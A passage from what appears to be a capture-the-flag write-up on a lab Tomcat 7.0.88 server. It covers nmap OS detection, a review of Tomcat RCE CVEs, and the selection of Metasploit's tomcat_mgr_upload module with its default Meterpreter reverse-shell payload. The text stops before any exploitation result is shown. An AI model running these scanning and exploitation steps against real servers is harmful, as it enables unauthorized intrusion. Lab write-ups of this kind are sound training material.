```
Nmap done: 1 IP address (1 host up) scanned in 109.18 seconds
```
`nmap` returns only a DOS vulnerability which is not interesting in our case.
### Apache Tomcat CVEs
Let's look at the CVEs. It seems to have an important [list of vulnerabilities](https://www.cybersecurity-help.cz/vdb/apache_foundation/apache_tomcat/7.0.88/), specially two RCEs: [CVE-2020-9484](https://www.cybersecurity-help.cz/vulnerabilities/28158/) and [CVE-2019-0232](https://www.cybersecurity-help.cz/vulnerabilities/18236/).
The second vulnerability is only exploitable on Windows. Let's use nmap to check the target OS:
```
$sudo nmap -O -oN nmap_os 10.129.136.9
[sudo] password for pierre: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-03 19:13 CEST
Nmap scan report for 10.129.136.9
Host is up (0.020s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.06 seconds
```
It is very likely that the OS is Windows and so make this vulnerability exploitable. Moreover, it seems to exist an MSF exploit available on [exploit-db](https://www.exploit-db.com/exploits/47073). However, it requires a CGI script to exploit the vulnerability.
The first vulnerability is on file upload and there is no upload form is what we list before.
### Deprecated API
Another interesting issue could be the examples using the deprecated API, but I have not been able to find any exploitable vulnerability.
### Manager application
It is possible to upload a WAR application on the server and MetaSploit has an exploit for that: `exploit/multi/http/tomcat_mgr_upload`.
## Exploitation
Let's try to exploit the server by uploading an application using MetaSploit module `exploit/multi/http/tomcat_mgr_upload`:
```
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/tomcat_mgr_login) >> use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> info

       Name: Apache Tomcat Manager Authenticated Upload Code Execution
     Module: exploit/multi/http/tomcat_mgr_upload
   Platform: Java, Linux, Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2009-11-09

Provided by:
  rangercha
```